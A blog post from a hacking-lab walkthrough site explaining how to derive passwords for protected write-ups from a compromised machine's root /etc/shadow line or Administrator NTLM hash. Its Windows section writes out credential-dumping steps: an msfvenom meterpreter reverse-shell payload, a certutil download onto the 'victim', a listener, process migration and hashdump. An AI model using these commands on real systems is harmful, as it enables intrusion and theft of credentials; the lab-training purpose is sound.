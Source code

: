 ```yaml
---
author: Greenjam94
categories:
- Walkthroughs
ct_period_last_updated:
- default
date: "2020-07-06T08:43:30Z"
guid: https://www.hackerunder.dev/?p=890
id: 890
image: /wp-content/uploads/2019/03/abstract-code.jpg
title: Walkthrough Decryption Instructions
url: /walkthrough-decryption-instructions/
---
```


This decryption method was copied from [0xPrashant](https://twitter.com/0xprashant) and his own [blog](http://0xprashant.github.io/pages/windows-decryption/). The page may not always be online, so I have copied the walkthrough decryption instructions from [an archived backup](https://web.archive.org/web/20200327224312/https://0xprashant.github.io/pages/decryption-instruction/). Below is a summary of how to create hashes from unique strings in a target machine with either Linux or Windows operating systems.

## Linux Machine Instructions (Using the root user hash in /etc/shadow)

When you own root on a machine you can read the content of /etc/shadow file

Simply run `cat /etc/shadow` and read the contents of the shadow file

```
<pre class="wp-block-code">```
cat /etc/shadow
root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::
```
```

### Create a md5hash from the /etc/shadow entry

Copy whole the line for the root user  
`root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::`

The following command converts this text to a md5 hash

`echo root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7::: | md5sum`

And you get **02bece38cf6510fb40f19e7caa16e323**

This is the password for protected posts of linux machines

## Windows Machine Instructions (Using the Administrator NTLM hash)

When you own a windows machine you are allowed to get the NTLM hashes of all the users

To get the NTLM hash, use a meterpreter shell and the `hashdump` command or an alternative

### Meterpreter hashdump

Assuming you already have access to an Administrator or System level shell

Create a payload that opens a meterpreter shell with msfvenom  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<YOURIP> lport=4444 -f exe > msf.exe`

Host the payload and download it to the target Windows machine  
Attacker: `python3 -m http.server 80`  
Victim: `certutil -urlcache -split -f http://<YOURIP>/msf.exe c:/windows/temp/msf.exe`

Launch a meterpreter listener

```
<pre class="wp-block-preformatted">kali: msfconsole<br></br>msf5> use exploit/multi/handler<br></br>msf5> set LHOST <YOURIP><br></br>msf5> run
```

Run the msf.exe file on the victim through your shell

Once a meterpreter session is established, run `hashdump`

If you see the following error  
`[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.`  
List processes with `ps`   
Migrate to a process running as SYSTEM and try again  
`migrate <PID>`  
`hashdump`

### hashdump.exe alternative

WARNING: Hashdump.exe might not give correct NTLM hashes, use another alternative  
Download and transfer [hashdump.exe](https://t.co/qhTz78Jt0S?amp=1) to the windows machine and run it with option /samdump

```
<pre class="wp-block-preformatted">PS C:\tmp> .\hashdump.exe /samdump<br></br>SAM hashes:<br></br>Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c:::
```

### Other alternatives

0xPrashant has a post on [getting the NTLM hash](https://0xprashant.github.io/pages/windows-decryption/) from a Windows machine. Besides Meterpreter he also goes over Mimikatz and Secretdump. Any option should work.

### Create a md5hash from the NTLM hash

Copy just the NTLM hash, which is the fourth entry between the colons (:)  
`31d6cfe0d16ae931b73c59d7e0c`

The following command will convert it to a md5 hash

`echo 31d6cfe0d16ae931b73c59d7e0c | md5sum`

Here we got **a8ca0fb8a398cd4268cd5baf75ec29a3**

Paste it in the writeup where it asks for password for decryption of writeup

- - - - - -

Please enjoy the post after attempting to hack the machines yourself. Use public walkthroughs of retired or older machines if you are new or looking to just follow along. It’s a waste of talent to brute force the post password just to follow the steps and not hack a machine by your own ability.

Hopefully these walkthrough decryption instructions are clear and you’re able to view protected posts. Feel free to reach out to me or wait for the machines to become retired and I’ll make the walkthroughs public.  
  
Please comment with questions or suggestions or if a machine guide is incorrect.

If a walkthrough is violating a lab’s Terms of Service or needs to be removed, please reach out to me as well at [Greenjam94](https://twitter.com/Greenjam94) on Twitter.